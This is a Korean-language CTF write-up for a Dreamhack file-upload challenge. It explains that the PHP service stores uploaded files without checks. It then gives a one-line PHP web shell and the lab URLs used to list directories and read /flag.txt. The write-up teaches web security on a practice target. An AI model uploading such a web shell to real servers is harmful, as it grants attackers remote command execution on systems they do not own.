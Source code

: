## 📍image-storage

```
php로 작성된 파일 저장 서비스입니다.
파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 `/flag.txt`에 있습니다.
```

이런 구조로 되어 있다.

![](Attachments/0D362402-3485-4BD2-9A1E-3CD287E7B182.png)

![](Attachments/22A765A1-9525-4935-9E30-C84DED1D3FEA.png)

아무 파일이나 업로드하면 `/upload.php`로 이동하며 저장된 경로를 보여준다.

![](Attachments/6A4917FA-988E-42BD-A197-6BF662234EBF.png)

List로 가보면 업로드된 폴더명과 파일명이 보인다.

![](Attachments/8893849E-0119-475A-BA23-4ED0B18086E3.png)


#### 소스코드

upload.php는 이용자가 업로드한 파일을 `uploads` 폴더에 복사한다.
![](Attachments/2122089A-A492-40EB-8E35-AA978022BC29.png)


#### 취약점

업로드한 파일에 대해 아무 검사도 하지 않으므로 웹 셸 업로드 공격에 취약하다.


#### 해결

php 웹셸을 업로드하고 방문하면 서버의 셸을 획득할 수 있다.

```php
<?php
	system($_GET[cmd]);
?>

/* 이런 파일을 업로드 하고
?cmd=ls를 URL로 주면 공격 가능! */
```

구글링해서 찾은 웹셸을 `.php`로 저장하고 업로드한 뒤 저장된 경로로 들어간다.

```
http://host3.dreamhack.games:21649/uploads/webshell.php
```

여기서 `?cmd=ls`를 URL로 주면 공격 가능하다고 되어 있다. 넣어보면 커맨드가 작동한다.
![](Attachments/C51C5155-A75E-4758-A618-93CB0A226AB4.png)

상위 경로로 가본다.
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=ls%20../
```
![](Attachments/C924132D-06F3-4A27-92E1-30D4AA6D2F97.png)
- `%20`: URL에서 공백을 나타냄

루트 경로로 찾아간다.
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=ls%20/
```
![](Attachments/030E2FDE-D5B3-488A-8BC3-D4641C3E22F4.png)

`flag.txt`의 경로를 알아냈으니, `cat` 커맨드로 `flag.txt`를 읽어보면 끝!
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=cat%20/flag.txt
```
![](Attachments/B6803AEE-18CB-4AF2-821F-C99892977B48.png)
